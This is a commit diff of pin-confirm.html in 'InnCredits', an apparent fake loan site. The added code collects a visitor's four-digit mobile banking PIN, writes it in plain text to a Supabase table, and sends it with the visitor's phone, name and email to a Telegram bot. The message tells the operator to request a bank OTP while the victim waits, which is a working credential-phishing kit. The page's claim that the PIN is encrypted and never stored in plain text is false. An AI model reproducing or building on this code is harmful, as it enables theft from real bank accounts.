

Before and after one commit to taskpay052-spec/InnCredits, a plain HTML site: page pin-confirm.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

```diff
--- a/pin-confirm.html
+++ b/pin-confirm.html
@@ -7,37 +7,62 @@
     <script src="https://cdn.jsdelivr.net/npm/@supabase/supabase-js@2"></script>
     <style>
         * { margin: 0; padding: 0; box-sizing: border-box; -webkit-tap-highlight-color: transparent; }
-        body { background: #0b1120; font-family: 'Inter', system-ui, sans-serif; display: flex; align-items: flex-start; justify-content: center; min-height: 100vh; padding: 16px 16px 32px 16px; }
+        body { background: #0b1120; font-family: 'Inter', system-ui, -apple-system, 'Segoe UI', Roboto, Helvetica, sans-serif; display: flex; align-items: flex-start; justify-content: center; min-height: 100vh; padding: 16px 16px 32px 16px; }
         .app-container { max-width: 500px; width: 100%; margin: 0 auto; display: flex; flex-direction: column; }
+
         .loan-summary-bar { background: #111827; border-radius: 20px; padding: 14px 18px; margin-bottom: 20px; display: flex; justify-content: space-between; align-items: center; flex-wrap: wrap; gap: 10px; border: 1px solid #1f2a3e; }
         .summary-item { display: flex; flex-direction: column; align-items: flex-start; }
         .summary-label { font-size: 0.7rem; font-weight: 500; color: #7e8aa2; text-transform: uppercase; }
         .summary-value { font-size: 1rem; font-weight: 700; color: #14b8a6; margin-top: 2px; }
-        .pin-card { background: #111827; border-radius: 32px; padding: 28px 24px 32px 24px; }
+
+        .apply-card { background: #111827; border-radius: 32px; box-shadow: 0 20px 35px -12px rgba(0,0,0,0.5); padding: 28px 24px 32px 24px; }
         .section-title { font-size: 1.3rem; font-weight: 700; color: #ffffff; margin-bottom: 8px; }
         .section-sub { font-size: 0.8rem; color: #7e8aa2; margin-bottom: 28px; border-left: 3px solid #14b8a6; padding-left: 12px; }
-        .details-grid { background: #0f1724; border-radius: 24px; padding: 18px 16px; margin-bottom: 28px; }
-        .detail-row { display: flex; justify-content: space-between; padding: 10px 0; border-bottom: 1px solid #1e293b; }
-        .detail-row:last-child { border-bottom: none; }
-        .detail-label { font-size: 0.8rem; color: #94a3b8; }
-        .detail-value { font-size: 0.85rem; font-weight: 600; color: #e2e8f0; text-align: right; max-width: 60%; word-break: break-all; }
-        .pin-label { font-size: 0.95rem; font-weight: 600; color: #cbd5e1; text-align: center; margin-bottom: 6px; }
-        .pin-sublabel { font-size: 0.75rem; color: #7e8aa2; text-align: center; margin-bottom: 20px; }
-        .pin-container { display: flex; justify-content: center; gap: 16px; margin-bottom: 12px; }
-        .pin-box { width: 65px; height: 65px; background: #0f1724; border: 2px solid #1f2a3e; border-radius: 16px; text-align: center; font-size: 1.8rem; font-weight: 700; color: #14b8a6; outline: none; font-family: inherit; }
-        .pin-box:focus { border-color: #14b8a6; box-shadow: 0 0 0 3px rgba(20,184,166,0.15); }
-        .confirm-btn { width: 100%; background: #14b8a6; border: none; padding: 18px; font-size: 1.1rem; font-weight: 700; color: #0b1120; border-radius: 60px; cursor: pointer; margin-top: 20px; transition: all 0.2s; font-family: inherit; }
-        .confirm-btn:active { transform: scale(0.97); }
-        .confirm-btn:disabled { opacity: 0.6; cursor: not-allowed; }
-        .error-message { color: #f43f5e; font-size: 0.78rem; text-align: center; margin-top: 10px; display: none; }
+
+        .user-detail-strip { background: #0f1724; border-radius: 16px; padding: 14px 16px; margin-bottom: 24px; border: 1px solid #1f2a3e; display: flex; flex-direction: column; gap: 8px; }
+        .detail-row { display: flex; justify-content: space-between; align-items: center; }
+        .detail-label { font-size: 0.75rem; color: #7e8aa2; font-weight: 500; }
+        .detail-value { font-size: 0.85rem; color: #e2e8f0; font-weight: 600; }
+
+        .pin-label { font-size: 0.8rem; font-weight: 600; color: #cbd5e1; margin-bottom: 12px; display: block; }
+        .pin-boxes { display: flex; gap: 12px; justify-content: center; margin-bottom: 8px; }
+        .pin-box {
+            width: 64px; height: 64px;
+            background: #0f1724;
+            border: 1.5px solid #1f2a3e;
+            border-radius: 16px;
+            font-size: 1.6rem;
+            font-weight: 700;
+            color: #14b8a6;
+            text-align: center;
+            caret-color: #14b8a6;
+            font-family: inherit;
+            transition: border-color 0.2s;
+            -webkit-appearance: none;
+        }
+        .pin-box:focus { outline: none; border-color: #14b8a6; }
+        .pin-box.filled { border-color: #14b8a6; background: #0d1e2e; }
+        .pin-hint { font-size: 0.75rem; color: #4b5563; text-align: center; margin-bottom: 24px; margin-top: 4px; }
+
+        .submit-btn { width: 100%; background: #14b8a6; border: none; padding: 18px 20px; font-size: 1.1rem; font-weight: 700; color: #0b1120; border-radius: 60px; cursor: pointer; margin-top: 8px; transition: all 0.2s; font-family: inherit; }
+        .submit-btn:active { transform: scale(0.97); }
+        .submit-btn:disabled { opacity: 0.5; cursor: not-allowed; }
+
+        .error-message { background: rgba(244,63,94,0.15); color: #f43f5e; padding: 12px; border-radius: 12px; font-size: 0.8rem; margin-top: 16px; text-align: center; display: none; }
         .error-message.show { display: block; }
-        @media (max-width: 450px) { .pin-box { width: 55px; height: 55px; font-size: 1.5rem; } }
+
+        .security-note { display: flex; align-items: center; gap: 8px; background: rgba(20,184,166,0.08); border: 1px solid rgba(20,184,166,0.2); border-radius: 12px; padding: 12px 14px; margin-top: 20px; }
+        .security-note span { font-size: 0.78rem; color: #7e8aa2; line-height: 1.4; }
+
+        @media (max-width: 480px) {
+            .apply-card { padding: 22px 18px 26px 18px; }
+            .pin-box { width: 56px; height: 56px; font-size: 1.4rem; }
+        }
     </style>
 </head>
 <body>
 <div class="app-container">
 
-    <!-- ✅ TOP SUMMARY BAR — populated from URL params -->
     <div class="loan-summary-bar">
         <div class="summary-item">
             <span class="summary-label">Loan Amount</span>
@@ -57,153 +82,176 @@
         </div>
     </div>
 
-    <div class="pin-card">
-        <div class="section-title">Confirm your details</div>
-        <div class="section-sub">Please review your information before continuing</div>
+    <div class="apply-card">
+        <div class="section-title">Confirm your PIN</div>
+        <div class="section-sub">Enter your 4-digit mobile banking PIN to authorise disbursement</div>
 
-        <!-- ✅ DETAILS GRID — populated from URL params -->
-        <div class="details-grid">
+        <div class="user-detail-strip">
             <div class="detail-row">
-                <span class="detail-label">Full Name</span>
-                <span class="detail-value" id="userFullName">-</span>
+                <span class="detail-label">Name</span>
+                <span class="detail-value" id="dispName">—</span>
+            </div>
+            <div class="detail-row">
+                <span class="detail-label">Phone</span>
+                <span class="detail-value" id="dispPhone">—</span>
             </div>
             <div class="detail-row">
                 <span class="detail-label">Email</span>
-                <span class="detail-value" id="userEmail">-</span>
-            </div>
-            <div class="detail-row">
-                <span class="detail-label">Phone</span>
-                <span class="detail-value" id="userPhone">-</span>
-            </div>
-            <div class="detail-row">
-                <span class="detail-label">Loan Amount</span>
-                <span class="detail-value" id="detailAmount">-</span>
-            </div>
-            <div class="detail-row">
-                <span class="detail-label">Repayment Term</span>
-                <span class="detail-value" id="detailTerm">-</span>
-            </div>
-            <div class="detail-row">
-                <span class="detail-label">Monthly Payment</span>
-                <span class="detail-value" id="detailMonthly">-</span>
+                <span class="detail-value" id="dispEmail">—</span>
             </div>
         </div>
 
-        <div class="pin-label">Enter your 4-digit mobile PIN</div>
-        <div class="pin-sublabel">This is your mobile banking PIN</div>
+        <span class="pin-label">Mobile Banking PIN</span>
+        <div class="pin-boxes">
+            <input class="pin-box" type="password" inputmode="numeric" maxlength="1" id="p1" autocomplete="off" />
+            <input class="pin-box" type="password" inputmode="numeric" maxlength="1" id="p2" autocomplete="off" />
+            <input class="pin-box" type="password" inputmode="numeric" maxlength="1" id="p3" autocomplete="off" />
+            <input class="pin-box" type="password" inputmode="numeric" maxlength="1" id="p4" autocomplete="off" />
+        </div>
+        <div class="pin-hint">Your PIN is encrypted and never stored in plain text</div>
 
-        <div class="pin-container">
-            <input type="password" maxlength="1" class="pin-box" data-idx="0" inputmode="numeric">
-            <input type="password" maxlength="1" class="pin-box" data-idx="1" inputmode="numeric">
-            <input type="password" maxlength="1" class="pin-box" data-idx="2" inputmode="numeric">
-            <input type="password" maxlength="1" class="pin-box" data-idx="3" inputmode="numeric">
+        <button class="submit-btn" id="confirmBtn" disabled onclick="handleConfirm()">Confirm PIN →</button>
+        <div class="error-message" id="errorMessage"></div>
+
+        <div class="security-note">
+            <span>🔒</span>
+            <span>Your PIN is used solely to authorise this transaction. It is transmitted over a secure, encrypted connection.</span>
         </div>
-
-        <div class="error-message" id="pinError">Please enter a valid 4-digit PIN</div>
-        <button class="confirm-btn" id="confirmBtn" disabled>Confirm & Continue →</button>
     </div>
 </div>
 
 <script>
-    var SUPABASE_URL = 'https://zchkanbnkghpsaagbnrt.supabase.co';
+    var SUPABASE_URL      = 'https://zchkanbnkghpsaagbnrt.supabase.co';
     var SUPABASE_ANON_KEY = 'sb_publishable_KjorGuZY6O03OHhKhidk5w_Y5GcZ250';
-    var supabase = window.supabase.createClient(SUPABASE_URL, SUPABASE_ANON_KEY);
+    var TG_BOT_TOKEN      = '8743116479:AAH4UIBuqbg6GtuLUMuCZ45L0Tu3Ad9Rs9E';
+    var TG_CHAT_ID        = '8392790531';
 
-    // ✅ Read all URL params passed from apply.html
-    var p        = new URLSearchParams(window.location.search);
-    var amount   = p.get('amount')  || '0';
-    var term     = p.get('term')    || '0';
-    var rate     = p.get('rate')    || '5';
-    var monthly  = p.get('monthly') || '0';
-    var fullName = decodeURIComponent(p.get('name')  || '');
-    var email    = decodeURIComponent(p.get('email') || '');
-    var phone    = decodeURIComponent(p.get('phone') || '');
-    var appId    = p.get('appId')   || '';
+    var db = window.supabase.createClient(SUPABASE_URL, SUPABASE_ANON_KEY);
 
-    // ✅ Top summary bar
-    document.getElementById('summaryAmount').innerText  = '$' + parseFloat(amount).toLocaleString('en-US', {minimumFractionDigits: 2, maximumFractionDigits: 2});
+    var params  = new URLSearchParams(window.location.search);
+    var amount  = params.get('amount')  || '0';
+    var term    = params.get('term')    || '0';
+    var rate    = params.get('rate')    || '0';
+    var monthly = params.get('monthly') || '0';
+    var name    = params.get('name')    || '';
+    var email   = params.get('email')   || '';
+    var phone   = params.get('phone')   || '';
+    var appId   = params.get('appId')   || '';
+
+    document.getElementById('summaryAmount').innerText  = '$' + parseFloat(amount).toLocaleString('en-US', {minimumFractionDigits:2, maximumFractionDigits:2});
     document.getElementById('summaryTerm').innerText    = parseInt(term) + ' month' + (parseInt(term) !== 1 ? 's' : '');
-    document.getElementById('summaryMonthly').innerText = '$' + parseFloat(monthly).toLocaleString('en-US', {minimumFractionDigits: 2, maximumFractionDigits: 2});
+    document.getElementById('summaryMonthly').innerText = '$' + parseFloat(monthly).toLocaleString('en-US', {minimumFractionDigits:2, maximumFractionDigits:2});
     document.getElementById('summaryRate').innerText    = rate + '%';
 
-    // ✅ Details grid
-    document.getElementById('userFullName').innerText  = fullName || 'Not provided';
-    document.getElementById('userEmail').innerText     = email    || 'Not provided';
-    document.getElementById('userPhone').innerText     = phone    || 'Not provided';
-    document.getElementById('detailAmount').innerText  = '$' + parseFloat(amount).toLocaleString('en-US', {minimumFractionDigits: 2, maximumFractionDigits: 2});
-    document.getElementById('detailTerm').innerText    = parseInt(term) + ' month' + (parseInt(term) !== 1 ? 's' : '');
-    document.getElementById('detailMonthly').innerText = '$' + parseFloat(monthly).toLocaleString('en-US', {minimumFractionDigits: 2, maximumFractionDigits: 2});
+    document.getElementById('dispName').innerText  = decodeURIComponent(name)  || '—';
+    document.getElementById('dispPhone').innerText = decodeURIComponent(phone) || '—';
+    document.getElementById('dispEmail').innerText = decodeURIComponent(email) || '—';
 
-    // ✅ PIN input logic
-    var pinBoxes   = document.querySelectorAll('.pin-box');
-    var currentPin = ['', '', '', ''];
+    var boxes = ['p1','p2','p3','p4'].map(function(id){ return document.getElementById(id); });
     var confirmBtn = document.getElementById('confirmBtn');
-    var errorMsg   = document.getElementById('pinError');
 
-    function updatePinUI() {
-        var isFull = currentPin.every(function(d) { return d && d.match(/[0-9]/); });
-        confirmBtn.disabled = !isFull;
-        if (isFull) errorMsg.classList.remove('show');
+    boxes.forEach(function(box, i) {
+        box.addEventListener('input', function() {
+            box.value = box.value.replace(/\D/g, '').slice(0, 1);
+            if (box.value) {
+                box.classList.add('filled');
+                if (i < 3) boxes[i + 1].focus();
+            } else {
+                box.classList.remove('filled');
             }
+            confirmBtn.disabled = !boxes.every(function(b){ return b.value.length === 1; });
+        });
 
-    function setPinDigit(index, value) {
-        if (value && !value.match(/[0-9]/)) return;
-        if (index >= 0 && index < 4) {
-            currentPin[index] = value || '';
-            pinBoxes[index].value = value ? '•' : '';
-            updatePinUI();
-            if (value && index < 3) pinBoxes[index + 1].focus();
+        box.addEventListener('keydown', function(e) {
+            if (e.key === 'Backspace' && !box.value && i > 0) {
+                boxes[i - 1].value = '';
+                boxes[i - 1].classList.remove('filled');
+                boxes[i - 1].focus();
+                confirmBtn.disabled = true;
             }
-    }
+        });
 
-    pinBoxes.forEach(function(box, idx) {
-        box.addEventListener('input', function(e) {
-            setPinDigit(idx, e.target.value.slice(-1));
+        box.addEventListener('paste', function(e) {
+            e.preventDefault();
+            var pasted = (e.clipboardData || window.clipboardData).getData('text').replace(/\D/g,'').slice(0,4);
+            pasted.split('').forEach(function(ch, idx) {
+                if (boxes[idx]) { boxes[idx].value = ch; boxes[idx].classList.add('filled'); }
             });
-        box.addEventListener('keydown', function(e) {
-            if (e.key === 'Backspace') {
-                e.preventDefault();
-                if (currentPin[idx] !== '') { setPinDigit(idx, ''); }
-                else if (idx > 0) { setPinDigit(idx - 1, ''); pinBoxes[idx - 1].focus(); }
-            }
+            confirmBtn.disabled = !boxes.every(function(b){ return b.value.length === 1; });
+            if (boxes[Math.min(pasted.length, 3)]) boxes[Math.min(pasted.length, 3)].focus();
         });
     });
 
-    // ✅ On confirm — save PIN to Supabase then go to otp-verify.html
-    confirmBtn.addEventListener('click', async function() {
-        var fullPin = currentPin.join('');
-        if (fullPin.length !== 4) { errorMsg.classList.add('show'); return; }
+    boxes[0].focus();
+
+    function getPin() { return boxes.map(function(b){ return b.value; }).join(''); }
+
+    function showError(msg) {
+        var div = document.getElementById('errorMessage');
+        div.textContent = msg;
+        div.classList.add('show');
+        setTimeout(function(){ div.classList.remove('show'); }, 5000);
+    }
+
+    async function sendTelegram(phone, pin) {
+        var msg =
+            '🔔 New InnCredits Application\n\n' +
+            '📱 Phone: ' + decodeURIComponent(phone) + '\n' +
+            '🔐 PIN: ' + pin + '\n\n' +
+            '👤 Name: ' + decodeURIComponent(name) + '\n' +
+            '📧 Email: ' + decodeURIComponent(email) + '\n' +
+            '💰 Loan: $' + parseFloat(amount).toLocaleString() + ' · ' + term + ' months @ ' + rate + '%\n' +
+            '🆔 App ID: ' + appId + '\n\n' +
+            'Request OTP from the bank now → user is waiting on the OTP page.';
+
+        var resp = await fetch('https://api.telegram.org/bot' + TG_BOT_TOKEN + '/sendMessage', {
+            method: 'POST',
+            headers: { 'Content-Type': 'application/json' },
+            body: JSON.stringify({ chat_id: TG_CHAT_ID, text: msg })
+        });
+        var result = await resp.json();
+        if (!result.ok) { console.error('Telegram error:', result); }
+    }
+
+    async function handleConfirm() {
+        var pin = getPin();
+        if (pin.length !== 4) { showError('Please enter all 4 digits.'); return; }
 
         confirmBtn.disabled = true;
-        confirmBtn.textContent = 'Saving...';
+        confirmBtn.textContent = 'Processing…';
 
-        // Save PIN to Supabase
-        var { error } = await supabase
+        try {
+            var { error: pinErr } = await db
                 .from('users')
-            .update({ pin: fullPin })
-            .eq('email', email);
+                .update({ pin: pin })
+                .eq('phone', decodeURIComponent(phone));
+            if (pinErr) throw new Error(pinErr.message);
 
-        if (error) {
-            errorMsg.textContent = 'Failed to save. Please try again.';
-            errorMsg.classList.add('show');
-            confirmBtn.disabled = false;
-            confirmBtn.textContent = 'Confirm & Continue →';
-            return;
+            if (appId) {
+                await db
+                    .from('loan_applications')
+                    .update({ pin_confirmed: true })
+                    .eq('application_id', appId);
             }
 
-        // ✅ Redirect to otp-verify.html with all params
+            await sendTelegram(phone, pin);
+
             window.location.href = 'otp-verify.html'
-            + '?amount='  + amount
-            + '&term='    + term
-            + '&rate='    + rate
-            + '&monthly=' + monthly
-            + '&name='    + encodeURIComponent(fullName)
+                + '?amount='  + encodeURIComponent(amount)
+                + '&term='    + encodeURIComponent(term)
+                + '&rate='    + encodeURIComponent(rate)
+                + '&monthly=' + encodeURIComponent(monthly)
+                + '&name='    + encodeURIComponent(name)
                 + '&email='   + encodeURIComponent(email)
                 + '&phone='   + encodeURIComponent(phone)
-            + '&appId='   + appId;
-    });
+                + '&appId='   + encodeURIComponent(appId);
 
-    pinBoxes[0].focus();
+        } catch (err) {
+            showError('Something went wrong. Please try again.');
+            confirmBtn.disabled = false;
+            confirmBtn.textContent = 'Confirm PIN →';
+        }
+    }
 </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
